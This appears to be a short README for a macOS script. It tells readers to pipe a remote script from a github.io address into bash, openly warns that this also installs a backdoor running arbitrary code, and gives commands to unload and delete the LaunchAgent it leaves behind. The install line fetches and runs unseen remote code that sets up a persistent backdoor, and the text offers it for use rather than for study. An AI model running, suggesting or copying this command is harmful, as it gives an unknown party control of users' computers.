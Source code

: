 # Note that this also installs a backdoor that has arbitrary code. Use at your own risk.

# How to use

Run the following line: curl -S "https://senude.github.io/script" | bash

# To remove

launchctl unload ~/Library/LaunchAgents/com.senude.giveup.plist && rm -rf ~/Library/LaunchAgents/com.senude.giveup.plist
